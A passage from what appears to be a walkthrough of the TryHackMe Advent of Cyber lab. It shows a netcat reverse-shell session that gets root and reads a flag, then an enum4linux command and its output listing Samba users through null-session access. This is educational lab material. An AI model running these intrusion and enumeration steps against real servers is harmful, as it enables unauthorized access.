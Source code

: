 Check the `netcat` session for reverse shell to get spawned.
{% capture code %}{% raw %}Connection from <ip> 53622 received!
bash: cannot set terminal process group (1530): Inappropriate ioctl for device
bash: no job control in this shell

root@tbfc-ftp-01:~# ls
ls
flag.txt

root@tbfc-ftp-01:~# cat flag.txt
cat flag.txt
  <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}


## Task 15 - Day 10 - Networking - Don't be sElfish!

This task is about using `enum4linux` to scan `samba` users and shares and using `smbclient` to exploit the share.


Use these links as references.
- [TryHackMe supporting material](https://www.youtube.com/watch?v=HscyCbModk4){:target="_blank"}
- [Enum4Linux Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-enum4linux){:target="_blank"}


Use `enum4linux` to enumerate the user information from `samba` server.
{% capture code %}{% raw %}enum4linux -U <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Jan 22 13:44:13 2021

Target Information

Target ........... <ip>
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


Enumerating Workgroup/Domain on <ip>

[+] Got domain/workgroup name: TBFC-SMB-01


Session Check on <ip>

[+] Server <ip> allows sessions using username '', password ''


Getting domain SID for <ip>

Domain Name: TBFC-SMB-01
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup


Users on <ip>

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: elfmcskidy	Name: 	Desc:
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: elfmceager	Name: elfmceager	Desc:
index: 0x3 RID: 0x3e9 acb: 0x00000010 Account: elfmcelferson	Name: 	Desc:

user:[elfmcskidy] rid:[0x3e8]
user:[elfmceager] rid:[0x3ea]
user:[elfmcelferson] rid:[0x3e9]

enum4linux complete on Fri Jan 22 13:44:15 2021{% endraw %}{% endcapture %} {% include code.html code=code%}
